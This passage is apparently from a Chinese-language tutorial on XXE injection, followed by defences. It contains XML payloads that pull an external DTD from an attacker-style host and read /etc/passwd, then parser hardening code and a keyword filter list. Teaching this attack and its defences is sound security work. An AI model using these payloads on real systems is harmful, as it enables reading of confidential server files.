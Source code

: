 + 通过DTD文档引入外部DTD文档，再引入外部实体声明

  XML内容：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
<c>&xxe;</c>
```

​	DTD内容：

```
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

+ 通过DTD外部实体声明引入外部实体声明

  听起来比较拗口，就是先写一个外部实体声明，然后引用的是攻击者服务器上面的外部实体声明。  

  XML内容：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE a [
	<!ENTITY % d SYSTEM "http://mark4z5.com/evil.dtd"> %d;
]>
<c>&xxe;</c>
```

dtd文件内容：

```
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

### XXE防御

#### 直接使用开发语言提供的禁用外部实体的方法

PHP：

```
libxml_disable_entity_loader(true);
```

JAVA：

```
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```

Python：

```
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

#### 过滤用户提交的 xml 数据

敏感关键词：``<!DOCTYPE``、``<!ENTITY``、``SYSTEM``、``PUBLIC`` 。